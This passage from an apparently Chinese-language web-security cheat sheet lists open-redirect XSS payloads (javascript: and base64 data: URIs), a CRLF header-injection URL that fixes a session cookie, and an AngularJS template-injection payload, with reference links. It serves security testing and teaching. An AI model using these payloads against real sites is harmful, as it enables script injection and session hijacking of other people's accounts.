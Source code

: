 other：

```
http://;URL=javascript:alert('XSS')
data:text/html%3bbase64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K
```

<https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20redirect>

## 13.CRLF注入

当你看到请求的参数是这样:

```
http://inj.example.org/redirect.asp?origin=foo
```

回显是这样：

```
HTTP/1.1 302 Object moved
Date: Mon, 07 Mar 2016 17:42:46 GMT
Location: account.asp?origin=foo
Connection: close
Content-Length: 121

<head><title>Object moved</title></head>
<body><h1>Object Moved</h1>This object may be found <a HREF="">here</a>.</body>
```

尝试CRLF注射：

```
http://inj.example.org/redirect.asp?origin=foo%0d%0aSet-Cookie:%20ASPSESSIONIDACCBBTCD=SessionFixed%0d%0a
CRLF： %0d%0a
https://www.gracefulsecurity.com/http-header-injection/
https://www.owasp.org/index.php/Testing_for_HTTP_Splitting/Smuggling_(OTG-INPVAL-016)
https://www.acunetix.com/websitesecurity/crlf-injection/
https://blog.innerht.ml/twitter-crlf-injection/
```

## 14.模板注入

您可以将一些代码放入jsfiddle以进行payload测试：

```
<html>
<head> 
<meta charset="utf-8">
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.js"></script>
</head>
<body>
<div ng-app>
{{constructor.constructor('alert(1)')()}}
</div>
</body>
</html>
```
